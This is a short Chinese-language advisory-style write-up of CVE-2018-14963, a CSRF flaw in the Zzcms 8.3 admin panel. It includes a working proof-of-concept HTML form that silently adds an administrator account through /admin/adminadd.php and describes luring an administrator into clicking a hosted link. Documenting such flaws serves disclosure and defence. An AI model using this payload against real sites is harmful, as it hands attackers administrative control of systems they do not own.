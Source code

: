 （CVE-2018-14963）Zzcms 8.3 csrf
================================

一、漏洞简介
------------

二、漏洞影响
------------

Zzcms 8.3

三、复现过程
------------

csrf漏洞，这个问题也是从上个版本就存在的问题，就是整个管理员后台的，所有表单都是没有设置csrf的token的，所以只要涉及到敏感操作的表单，都可以使用csrf来攻击，达成很多攻击利用。

这里的攻击是产生在了/admin/adminadd.php的添加管理员操作，构造的表单如下：

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="http://0-sec.org:8080/admin/adminadd.php?action=add" method="POST">
          <input type="hidden" name="groupid" value="1" />
          <input type="hidden" name="admins" value="123" />
          <input type="hidden" name="passs" value="123" />
          <input type="hidden" name="passs2" value="123" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>

构造好了payload以后，放到vps上，然后诱导管理员点击恶意链接，即可成功添加管理员。

未添加管理员之前：

![](resource/(CVE-2018-14963)Zzcms8.3csrf/media/rId24.png)

点击链接之后：

![](resource/(CVE-2018-14963)Zzcms8.3csrf/media/rId25.png)

参考链接
--------

> <https://www.anquanke.com/post/id/156660>

